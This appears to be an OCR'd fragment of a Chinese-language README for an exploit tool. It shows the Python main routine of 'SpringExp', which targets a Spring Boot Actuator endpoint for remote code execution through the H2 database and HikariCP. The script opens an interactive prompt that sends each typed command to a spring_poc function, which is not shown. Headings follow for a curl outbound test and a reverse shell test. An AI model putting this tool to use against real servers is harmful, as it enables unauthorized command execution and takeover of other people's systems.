 ```python
    red='\033[31m'
    green='\033[32m'
    orange='\033[33m'
    blue='\033[34m'
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKCYAN = '\033[96m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'

if __name__ == '__main__':
    banner = (colors.red + r"""
  _________            .__              ___________               
 /   _____/____________|__| ____    ____\_   _____/__  _________  
 \_____  \\____ \_  __ \  |/    \  / ___\|    __)_\  \/  /\____ \ 
 /        \  |_> >  | \/  |   |  \/ /_/  >        \>    < |  |_> >
/_______  /   __/|__|  |__|___|  /\___  /_______  /__/\_ \|   __/ 
        \/|__|                 \//_____/        \/      \/|__|   
    """+ "\n" + colors.blue + "vuln: " + colors.orange + "SpringCloud h2 database & hikaricp RCE" + "\n" \
        + colors.blue + "group: " + colors.green + "WgpSec Team" + "\t\t" + colors.reset \
        + colors.blue + "author: " + colors.green + "2h0ng" + "\n" + colors.reset)
    print(banner)

    
    ap = argparse.ArgumentParser()
    ap.add_argument("-u", "--url", required=True,
        help="Spring Actuator Endpoint absolute path, example: https://example.com/actuator/")
    ap.add_argument("-v", "--spring-version", required=False,
        help="Spring Boot Version, example: -v (1/2), default 2", default=2, type=int)
    args = vars(ap.parse_args())
    
    while True:
        command = input(colors.red + "$command:>> " + colors.reset)
        if command == 'exit':
            sys.exit(0)
        spring_poc(args['url'], command, args['spring_version'])
```

## 1、curl语句出网测试：

![poc1.gif](https://cdn.nlark.com/yuque/0/2021/gif/12876037/1617365235007-0e16704e-616f-4952-a7c7-4d86a0337645.gif)

## 2、反弹shell测试：
